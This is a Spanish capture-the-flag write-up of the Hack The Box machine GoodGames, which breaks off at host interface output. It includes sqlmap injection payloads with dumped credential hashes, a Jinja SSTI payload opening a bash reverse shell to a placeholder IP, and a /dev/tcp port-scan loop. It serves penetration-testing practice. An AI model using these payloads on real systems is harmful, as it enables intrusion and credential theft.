# Resolución maquina GoodGames

**Autor:** PepeMaquina  
**Fecha:** 31 de diciembre de 2025  
**Dificultad:** Easy  
**Sistema Operativo:** Linux  
**Tags:** SQLi, SSTI, Docker.

---
## Imagen de la Máquina

*Imagen: GoodGames.JPG*
## Reconocimiento Inicial

### Escaneo de Puertos
Comenzamos con un escaneo completo de nmap para identificar servicios expuestos:
~~~ bash
sudo nmap -p- --open -sS -vvv --min-rate 5000 -n -Pn 10.129.96.71 -oG networked
~~~
Luego queda realizar un escaneo detallado de puertos abiertos:
~~~ bash
sudo nmap -sCV -p22,80 10.129.96.71 -oN targeted
~~~
### Enumeración de Servicios
~~~bash
PORT   STATE  SERVICE VERSION
22/tcp closed ssh
80/tcp open   http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
~~~
Este escenario se parece mas a un entorno real, no se ve algun puerto ssh abierto, solamente el puerto 80 por lo que lo mas probable es exista un exploit a un posible RCE para obtener acceso a la maquina.
### Enumeración dentro de la pagina web
Como no existe una redirección directa  a un dominio, solamente queda inspeccionar la página web a detalle.

***NOTA: Por recomendación general siempre se debe realizar una enumeración de subdirectorios, pero si no lo menciono es porque no fue relevante para realizar la maquina***

Viendo el contenido de la pagina se ve que es una página de videojuegos.



Inspeccionando cada función de la maquina, se puede ver un inicio de sesión, asi que primero que nada se crea una sesion nueva con un usuario nuevo.





Al iniciar sesion esta me redirige a un perfil con la posibilidad de cambiar una contraseña.



Pero al momento de intentar cambiar la contraseña, la pagina envia un error 500.

Esto me hace pensar en una posible sqli, asi que sin pensarlo mucho lo paso a "sqlmap" pero por mala suerte esto no me devuelve asi que por el momento lo dejo de lado, pero si no encuentro nada mas entonces volvere a este punto.

Otra cosa que se me ocurre, es pensar que seguramente existe un usuario administrator e intento un sqli en el inicio de sesion con la tipica "or 1=1".

Al colocar la inyeccion sql, puedo notar un par de cosas interesantes que podrian ser de ayuda.
Primero, al ingresar me envia un mensaje de bienvenida pero con dos nombres.



Esto da la posibilidad de no solamente ingresar como administrador, sino tambien de poder obtener datos de la base de datos como contraseñas.

Segundo: al ingresar al perfil de administrator, se puede ver que existe una opcion que no existia en un perfil normal.



Esta lleva a un subdominio, asi que aprovecho en agregar los dominios al "etc/hosts".
~~~bash
cat /etc/hosts | grep 10.129.96                                                                                       
10.129.96.71 internal-administration.goodgames.htb goodgames.htb
~~~
Al ingresar al subdominio se tiene un inicio de sesion.



Intentando ingresar con credenciales por defecto esto no surge efecto, asi que como se menciono antes, se puede obtener contraseñas con el sqli del inicio de sesion de la pagina de video games.

### SQLI inicio de sesion
Para explotar el sqi primero la intentare hacer con la herramienta "sqlmap" y tambien de forma manual.
De forma automatizada solo basta con agregar el comando necesario:
~~~bash
┌──(kali㉿kali)-[~/htb/goodgames/content]
└─$ sqlmap 'http://10.129.96.71/login' --data 'email=admin@goodgames.htb&password=admin' --threads 10 --level 5 --risk 3 --dump
        ___
       __H__                                                                                                                                                
 ___ ___[']_____ ___ ___  {1.9.4#stable}                                                                                                                    
|_ -| . [)]     | .'| . |                                                                                                                                   
|___|_  [,]_|_|_|__,|  _|                                                                                                                                   
      |_|V...       |_|   https://sqlmap.org                                                                                                                

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:49:09 /2025-12-30/

[22:49:09] [INFO] resuming back-end DBMS 'mysql' 
[22:49:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: email (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
    Payload: email=admin@goodgames.htb' AND 4099=(SELECT (CASE WHEN (4099=4099) THEN 4099 ELSE (SELECT 9965 UNION SELECT 5422) END))-- LHgV&password=admin

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@goodgames.htb' AND (SELECT 8081 FROM (SELECT(SLEEP(5)))ZTzw)-- cqwz&password=admin

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: email=admin@goodgames.htb' UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x717a787171,0x524d4e664d6b6a4e666c6f727671554b5a466e45424c625578536b7666594f6570714b586d726f6c,0x7178707871)-- -&password=admin
---
[22:49:10] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[22:49:10] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[22:49:10] [INFO] fetching current database
got a refresh intent (redirect like response common to login pages) to '/profile'. Do you want to apply it from now on? [Y/n] n
[22:49:13] [INFO] fetching tables for database: 'main'
[22:49:13] [INFO] fetching columns for table 'blog_comments' in database 'main'
[22:49:14] [INFO] fetching entries for table 'blog_comments' in database 'main'
Database: main
Table: blog_comments
[2 entries]
+----+---------+--------+---------------------------------------------------------+------------+-------------+
| id | blog_id | user   | comment                                                 | created_at | is_accepted |
+----+---------+--------+---------------------------------------------------------+------------+-------------+
| 1  | 1       | admin  | I absolutely loved this article, keep up the good work! | NULL       | 1           |
| 2  | 1       | admin  | This is truly a masterpiece!                            | NULL       | 0           |
+----+---------+--------+---------------------------------------------------------+------------+-------------+

[22:49:14] [INFO] table 'main.blog_comments' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.129.96.71/dump/main/blog_comments.csv'
[22:49:14] [INFO] fetching columns for table 'user' in database 'main'
[22:49:14] [INFO] fetching entries for table 'user' in database 'main'
[22:49:14] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
do you want to crack them via a dictionary-based attack? [Y/n/q] n
Database: main
Table: user
[2 entries]
+----+---------------------+--------+----------------------------------+
| id | email               | name   | password                         |
+----+---------------------+--------+----------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec |
| 2  | test@gmail.com      | pepe   | 926e27eecdbc7a18858b3798ba99bddd |
+----+---------------------+--------+----------------------------------+

[22:49:36] [INFO] table 'main.`user`' dumped to CSV file '/home/kali/.local/share/sqlmap/output/10.129.96.71/dump/main/user.csv'
[22:49:37] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.129.96.71'
[22:49:37] [WARNING] your sqlmap version is outdated

[*] ending @ 22:49:37 /2025-12-30/
~~~
Eso es relativamente sencillo, pero para practicas tambien se mostrara la forma manual, para ello se abre burp suite e intercepta las peticiones.
Primero intentare saber cual es la cantidad de columnas que presenta y en cual se refleja la informacion.



Despues de probar varios datos, se comprobo que presenta 4 columnas y el dato que se refleja es la ultima mostrando 4 como resultado.
Ahora debo buscar las bases de datos que existen.



Tal parece que la unica base de datos creada es "main", ahora intentando obtener las tablas que tiene.



De lo obtenido, la tabla que mas llama la atencion es "user", asi que veo las columnas que tiene.



Al ver el nombre de las columnas, la que llama mi atencion es "password".



Al ver las contraseñas se ve que estan hasheadas, pero esto parece ser un md5, se ven dos hashes pero el primero es del usuario "admin" ya que el segundo es el usuario que nosotros creamos.

Ingresando en nuestra confiable página "crackstation" se ve la contraseña.



Ahora si con esta contraseña, se puede ingresar al subdominio.



### SSTI Python
Tal cual esto parece ser un dashboard normal, interactuando con la pagina se llego a ver la pestaña se "settings" que es lo que mas llama la atencion.



Esto parece ser una opcion para crear una especie de platilla que se refleja en la pagina, viendo esto se me viene a la cabeza una posible SSTI.
Recordando el escaneo de nmap, esto corre python por detras por lo que la posibilidad de que se pueda hacer un SSTI es mucho mayor, entonces se prueba el tipico payload "{{7 * 7}}"



Claramente el payload funciono y se comprueba que es un SSTI, asi que con esto se puede hacer un RCE facilmente colocando el payload:
~~~SSTI
{{namespace.__init__.__globals__.os.popen('bash -c "bash -i>& /dev/tcp/<IP>/443 0>&1"').read()}}
~~~
Asi que ingresando ello y abriendo un escucha, se puede ver que se tiene acceso al servidor que corre la pagina.
~~~bash
┌──(kali㉿kali)-[~/htb/goodgames/content]
└─$ penelope -p 4433   
[+] Listening for reverse shells on 0.0.0.0:4433 →  127.0.0.1 • 192.168.5.128 • 172.17.0.1 • 172.18.0.1 • 10.10.15.165
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from 3a453ab39d3d~10.129.96.71-Linux-x86_64 😍 Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/local/bin/python3! 💪
[+] Interacting with session [1], Shell Type: PTY, Menu key: F12 
[+] Logging to /home/kali/.penelope/sessions/3a453ab39d3d~10.129.96.71-Linux-x86_64/2025_12_30-23_06_02-481.log 📜
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@3a453ab39d3d:/backend#
~~~
Pero lastimosamente por el id se nota que estamos en un contenedor, esta no es la maquina real.

---
## User Flag

> **Valor de la Flag:** `<Averiguelo usted mismo>`

### User Flag
Con acceso al contenedor, primero veo que existe una carpeta "augustus" dentro del directorio "home" y dentro de ella una user flag a la que si podemos leer.
~~~
root@3a453ab39d3d:~# cd /home
root@3a453ab39d3d:/home# ls
augustus
root@3a453ab39d3d:/home# cd augustus/
root@3a453ab39d3d:/home/augustus# ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Nov  3  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Dec 31 02:42 user.txt
root@3a453ab39d3d:/home/augustus# cat user.txt
<Encuentre su propia usre flag>
~~~

---
## Escalada de Privilegios
Para escalar privilegios, lo primero que noto es que al buscar mas usuarios, solo existe root.
~~~bash
root@3a453ab39d3d:/backend/project# cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
~~~
Y revisando la carpeta home y buscando el usuario "augustus" se puede notar que todo esto lo creo un id 1000 mas no algun usuario dentro del contenedor.
~~~bash
root@3a453ab39d3d:/home/augustus# ls -la
total 24
drwxr-xr-x 2 1000 1000 4096 Nov  3  2021 .
drwxr-xr-x 1 root root 4096 Nov  5  2021 ..
lrwxrwxrwx 1 root root    9 Nov  3  2021 .bash_history -> /dev/null
-rw-r--r-- 1 1000 1000  220 Oct 19  2021 .bash_logout
-rw-r--r-- 1 1000 1000 3526 Oct 19  2021 .bashrc
-rw-r--r-- 1 1000 1000  807 Oct 19  2021 .profile
-rw-r----- 1 root 1000   33 Dec 31 02:42 user.txt
~~~
Lo que me da a entender que este carpeta esta montada desde el host original. Esto no es muy util ahora pero es bueno recordarlo para escalar privilegios.

### Escape del contenedor
Fuera de ello no encuentro otra forma de escapar del contenedor, asi que empiezo a buscar si talvez tengo conexion con otros contenedores. Del pequeño escaneo puedo ver que tengo conexión con la ip "172.19.0.1".
~~~bash
root@3a453ab39d3d:/backend/project# ping 172.19.0.1
PING 172.19.0.1 (172.19.0.1) 56(84) bytes of data.
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.069 ms
64 bytes from 172.19.0.1: icmp_seq=2 ttl=64 time=0.045 ms
~~~
Al ver que tengo conexión noto que es una maquina linux, asi que realizo un escaneo de puertos.
~~~bash
root@3a453ab39d3d:/backend/project# for port in {1..65535}; do echo > /dev/tcp/172.19.0.1/$port && echo "$port open"; done 2>/dev/null
22 open
80 open
~~~
Veo que tiene el puerto 22 abierto, asi que puede que este sea el host original.
Antes de buscar mas credenciales, primero intento conectarme con las que conozco "augustus/superadministrator".
~~~bash
root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1
augustus@172.19.0.1's password: 
Linux GoodGames 4.19.0-18-amd64 #1 SMP Debian 4.19.208-1 (2021-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
augustus@GoodGames:~$
~~~
Se puede ver que se conecto exitosamente.
Verificando las interfaces e ips que tiene, se puede ver que es el servidor original que hostea todo.
~~~bash
augustus@GoodGames:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b0:2c:3b brd ff:ff:ff:ff:ff:ff
    inet 10.129.96.71/16 brd 10.129.255.255 scope global dynamic ens192
       valid_lft 3373sec preferred_lft 3373sec
